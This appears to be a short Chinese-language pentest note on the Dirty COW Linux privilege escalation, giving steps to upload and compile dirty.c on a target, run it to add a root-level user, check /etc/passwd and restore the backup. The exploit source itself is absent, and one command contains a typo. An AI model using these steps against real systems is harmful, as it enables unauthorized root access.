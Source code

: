 # 脏牛提权

- 上传`dirty.c`文件到目标

```bash
#使用下面的命令编译
gcc -pthread dirty.c -o dirty -lcrypt
```

- 执行

```bash
# +新增用户密码
./dijrty 445566
# 查看是否提权成功
cat /etc/passwd
# 销毁(覆盖)
mv /tmp/passwd.bak /etc/passwd
```

### 示例

![image-20241029150248307](./assets/image-20241029150248307.png)

![image-20241029150342235](./assets/image-20241029150342235.png)
